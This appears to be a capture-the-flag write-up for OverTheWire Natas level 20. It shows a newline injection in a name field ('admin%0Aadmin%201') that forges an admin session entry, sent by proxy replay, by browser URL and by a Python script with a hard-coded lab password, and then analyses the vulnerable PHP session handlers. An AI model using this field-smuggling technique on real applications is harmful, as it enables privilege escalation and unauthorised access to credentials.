# 🕸️Natas Level 20 → Level 21

```
http://natas20.natas.labs.overthewire.org
```
Username: natas20  
Password: (natas20_password)



While analyzing the source code, we came across the functions `debug` and `print_credentials`, which caught our attention.







First, we type admin and click **Change Name** to test the functionality.



Next, we append ``?debug`` to the end of the URL and press **Enter**.
```
http://natas20.natas.labs.overthewire.org/index.php?debug
```


We noticed a debug message showing `MYREAD` and `MYWRITE`, which caught our interest.



If we enter admin and then refresh the page twice with ?debug appended to the URL.
We noticed this:
```
DEBUG: Read [name admin]
DEBUG: Read []
```


What if we were able to insert something malicious into the second ``Read []``?
```
admin
admin 1
### URL encode
admin%0Aadmin%201
```


### 🧰 Using Web Security Testing Tools

Click **Change Name** again to submit the request.



Once the request is captured, send it to **Replay**.



Next, we replace the name field with our payload. Then, click **Send twice**.
```
admin%0Aadmin%201
```


After clicking **Send** a few times, the flag should appear.



### 🌐 Using Web Browser

Copy our payload into the address bar and press **Enter**.
```
http://natas20.natas.labs.overthewire.org/index.php?name=admin%0Aadmin%201
```


After **refreshing the page twice** or a few times, the flag should appear.



### 🐍 Using Python Script 

```
import requests
import re

# Credentials for natas20
username = "natas20"
password = "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw"

# Target URL
url = "http://natas20.natas.labs.overthewire.org"
##url = "http://natas20.natas.labs.overthewire.org/index.php?debug"

# Start a session to persist cookies and headers across requests
session = requests.Session()

payload = "admin\nadmin 1"

response = session.post(
    url,
    data={"name": payload},
    auth=(username, password)
)

##print(response.text)
##print("*"*80)

response = session.post(
    url,
    data={"name": payload},
    auth=(username, password)
)

print(response.text)


```

Ensure the file has executable permissions, then run it.



The flag should appear immediately.



### ⚠️ Vulnerabilities in the PHP Code

When we attempt to debug the output, we see that our insertion into the code was successful.
```
DEBUG: Read [name admin]
DEBUG: Read [admin 1]

DEBUG: admin => 1
DEBUG: name => admin admin 1
```


---

In ``function print_credentials()``
```
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)
```
**What it does:**  

Checks whether the session contains ``$_SESSION['admin'] == 1`.
- If true → displays the admin credentials.
- If false → indicates you’re a regular user.

**Security implication:**  

All the access control depends on one simple session variable (admin).
If an attacker can tamper with the session file, they can set admin = 1 and get full access.

---

In ``function myread()``
```
foreach(explode("\n", $data) as $line) {
    debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
}
```
**What it does:**

Parses each line of input and stores the values in the session as ``$_SESSION[$key] = $value``.
Example input:
```
key value
name peter
```

**Security implications:**
- No authentication or integrity checks are performed.
- The session file is readable and writable by the PHP process, making it vulnerable to tampering.

---

In ``function mywrite()``
```
foreach($_SESSION as $key => $value) {
    debug("$key => $value");
    $data .= "$key $value\n";
}
```
**What it does:**
- Saves the contents of ``$_SESSION`` into a plain-text file.
- Each line is a simple key value pair.  
- Example output:
```
admin 0
name peter
```

**Security implications:**

- Data is stored in plaintext without encryption or signing.
- Anyone with access to the session file can read, modify, or forge session data.
- No integrity checks are performed — the file can be manually edited to escalate privileges, e.g.:
```
admin 1
```
---

Awesome! You can use this flag to access the next round.
